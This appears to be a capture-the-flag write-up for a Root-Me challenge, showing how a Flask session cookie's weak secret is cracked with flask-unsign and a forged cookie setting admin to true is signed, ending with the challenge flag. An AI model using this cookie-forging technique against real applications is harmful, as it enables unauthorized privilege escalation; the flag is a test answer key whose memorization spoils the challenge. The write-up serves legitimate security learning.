



We can see that once we entered, we get this cookie:
`session=eyJhZG1pbiI6ImZhbHNlIiwidXNlcm5hbWUiOiJndWVzdCJ9.aId1rA.CAmRYTT5fWlgqgaALm32P2zttm0;`, which is a flask signed cookie.
Let's try and crack it using [flask unsign](https://github.com/Paradoxis/Flask-Unsign).

We'll run this command: `flask-unsign --unsign --server  http://challenge01.root-me.org:59084/`
After 1 second we crack the secert, which is `s3cr3t`


Okay, let's sign our malformed cookie with `s3cr3t`.

As you can see, the cookie is like this: `{"admin":"false","username":"guest"}` and then sign, so our new cookie will be: `{"admin":"true","username":"guest"}`


we'll run this command: 
```
agonen@PC4:~$ flask-unsign --sign --cookie '{"admin":"true","username":"guest"}' --secret 's3cr3t'
eyJhZG1pbiI6InRydWUiLCJ1c2VybmFtZSI6Imd1ZXN0In0.aId3Dg.lzbqnzAu3e3flRZ2CM-euADCajE
```

Okay, so let's give this cookie: `eyJhZG1pbiI6InRydWUiLCJ1c2VybmFtZSI6Imd1ZXN0In0.aId3Dg.lzbqnzAu3e3flRZ2CM-euADCajE`



**Flag:** ***`Fl4sK_mi5c0nfigur4ti0n`***
